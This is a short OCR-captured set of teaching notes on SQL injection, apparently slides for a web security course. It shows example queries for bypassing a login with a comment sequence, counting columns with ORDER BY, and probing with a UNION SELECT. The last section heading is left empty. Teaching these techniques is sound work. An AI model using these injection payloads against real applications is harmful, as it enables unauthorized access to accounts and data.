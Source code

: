 ## Subverting application logic 

```
SELECT * FROM users
WHERE username = 'wiener'
AND password = 'bluecheese'
```

----

## Subverting application logic 


```
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = ''
```

---

## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
```

----

## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
ORDER BY 1 --'
```

----


## UNION attacks

```
SELECT * FROM products
WHERE category = 'Gifts'
UNION
SELECT 'a',NULL,NULL,NULL --'

```

----

## UNION attacks

